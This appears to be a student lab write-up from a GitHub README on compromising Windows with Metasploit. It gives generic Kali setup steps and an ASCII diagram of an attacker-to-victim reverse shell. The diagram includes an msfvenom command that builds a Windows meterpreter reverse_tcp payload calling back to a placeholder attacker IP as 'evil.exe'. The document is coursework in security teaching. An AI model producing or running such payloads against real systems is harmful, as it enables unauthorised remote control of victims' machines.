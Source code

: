 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By: Rithika R
### Reg No. 212224240136

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

bash
## 🛠 Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  
